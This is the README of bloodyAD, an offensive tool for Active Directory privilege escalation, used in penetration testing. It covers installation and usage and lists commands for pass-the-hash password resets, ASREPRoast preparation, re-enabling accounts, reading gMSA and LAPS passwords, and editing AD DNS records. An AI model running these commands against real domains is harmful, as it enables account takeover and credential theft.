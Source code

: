 autobloody has been moved to its own [repo](https://github.com/CravateRouge/autobloody) # ![bloodyAD logo](https://repository-images.githubusercontent.com/415977068/9b2fed72- 35fb-4faa-a8d3-b120cd3c396f) bloodyAD `bloodyAD.py` is an Active Directory privilege escalation swiss army knife ## Description This tool can perform specific LDAP/SAMR calls to a domain controller in order to perform AD privesc. `bloodyAD` supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc. It is designed to be used transparently with a SOCKS proxy. ## Installation First if you run it on Linux, you must have `libkrb5-dev` installed on your OS in order for kerberos to work: ```ps1 # Debian/Ubuntu/Kali apt-get install libkrb5-dev # Centos/ RHEL yum install krb5-devel # Fedora dnf install krb5-devel # Arch Linux pacman -S krb5 ``` A python package is available: ```ps1 pip install bloodyAD bloodyAD --host 172.16.1.15 -d bloody.local -k set password john.doe 'Password123!' ``` Or you can clone the repo: ```ps1 git clone --depth 1 https://github.com/CravateRouge/bloodyAD pip install. bloodyAD --host 172.16.1.15 -d bloody.local -k set password john.doe 'Password123!' ``` ### Dependencies - Python 3 - DSinternals - Impacket - Ldap3 - Gssapi (linux) or Winkerberos (Windows) ## Usage Simple usage: ```ps1 bloodyAD --host 172.16.1.15 -d bloody.local -u jane.doe -p :70016778cb0524c799ac25b439bd6a31 set password john.doe 'Password123!' ``` **Note:** You can find more examples on <https://cravaterouge.github.io/> and in the documentation folder of this project List of all available functions: ```ps1 usage: bloodyAD.py [-h] [-d DOMAIN] [-u USERNAME] [-p PASSWORD] [-k] [-c CERTIFICATE] [-s] [--host HOST] [-v {QUIET,INFO,DEBUG}] {add,get,remove,set} ... AD Privesc Swiss Army Knife options: -h, --help show this help message and exit -d DOMAIN, --domain DOMAIN Domain used for NTLM authentication -u USERNAME, -- username USERNAME Username used for NTLM authentication -p PASSWORD, --password PASSWORD Cleartext password or LMHASH:NTHASH for NTLM authentication -k, --kerberos -c CERTIFICATE, --certificate CERTIFICATE Certificate authentication, eg: "path/to/key:path/to/cert" -s, --secure Try to use LDAP over TLS aka LDAPS (default is LDAP) --host HOST Hostname or IP of the DC (ex: my.dc.local or 172.16.1.3) -v {QUIET,INFO,DEBUG}, --verbose {QUIET ,INFO,DEBUG} Adjust output verbosity Commands: {add,get,remove,set} add [ADD] function category get [GET] function category remove [REMOVE] function category set [SET] function category ``` Help text to use a specific function: ```ps1 [bloodyAD]$ bloodyAD --host 172.16.1.15 -d bloody.local -u jane.doe -p :70016778cb0524c799ac25b439bd6a31 set password -h usage: bloodyAD.py set password [- h] [--oldpass OLDPASS] target newpass positional arguments: target sAMAccountName, DN,GUID or SID of the target newpass new password for the target options: -h, --help show this help message and exit --oldpass OLDPASS old password of the target, mandatory if you don't have "change password" permission on the target (default: None) ``` ## How it works bloodyAD communicates with a DC using mainly the LDAP protocol in order to get information or add/modify/delete AD objects. Exchange of sensitive information such as passwords without LDAPS are now supported. ## Useful commands ```ps1 # Get group members bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get object Users --attr member # Get minimum password length policy bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get object 'DC=bloody,DC=local' --attr minPwdLength # Get AD functional level bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 get object 'DC=bloody,DC=local' --attr msDS-Behavior-Version # Get all users of the domain bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get children 'DC=bloody,DC=local' --type user # Get all computers of the domain bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get children 'DC=bloody,DC=local' --type computer # Get all containers of the domain bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get children 'DC=bloody,DC=local' --type container # Enable DONT_REQ_PREAUTH for ASREPRoast bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 add uac john.doe DONT_REQ_PREAUTH # Disable ACCOUNTDISABLE bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 remove uac john.doe ACCOUNTDISABLE # Get UserAccountControl flags bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 get object john.doe --attr userAccountControl # Read GMSA account password bloodyAD -u john.doe -d bloody -p Password512 --host 192.168.10.2 get object 'gmsaAccount$' --attr msDS-ManagedPassword # Read LAPS password bloodyAD -u john.doe -d bloody -p Password512 --host 192.168.10.2 get object 'COMPUTER$' --attr ms-Mcs-AdmPwd # Read quota for adding computer objects to domain bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get object 'DC=bloody,DC=local' --attr ms-DS-MachineAccountQuota # Add a new DNS entry bloodyAD -u stan.dard -p Password123! -d bloody.local --host 192.168.10.2 add dnsRecord my_machine_name 192.168.10.48 # Remove a DNS entry bloodyAD -u stan.dard -p Password123! -d bloody.local --host 192.168.10.2 remove dnsRecord my_machine_name 192.168.10.48 # Get AD DNS records bloodyAD -u stan.dard -p Password123! -d bloody.local --host 192.168.10.2 get dnsDump ``` ## Acknowledgments - Thanks to [impacket](https://github.com/fortra/impacket) contributors. [Structures](https://github.com/fortra/impacket/blob/master/impacket/structure.py) and several [LDAP attacks](https://github.com/fortra/impacket/blob/master/impacket/examples/ntlmrelayx/attacks/ldapattack.py) are based on their work. - Thanks to [@PowerShellMafia](https://github.com/PowerShellMafia) team ([PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)) and their work on AD which inspired this tool. - Thanks to [@dirkjanm](https://github.com/dirkjanm) ([adidnsdump.py](https://github.com/dirkjanm/adidnsdump)) and ([@Kevin-Robertson](https:/ /github.com/Kevin-Robertson))([Invoke-DNSUpdate.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1)) for their work on AD DNS which inspired DNS functionalities. - Thanks to [@p0dalirius](https://github.com/p0dalirius/) and his [pydsinternals](https://github.com/p0dalirius/pydsinternals) module which helped to build the shadow credential attack
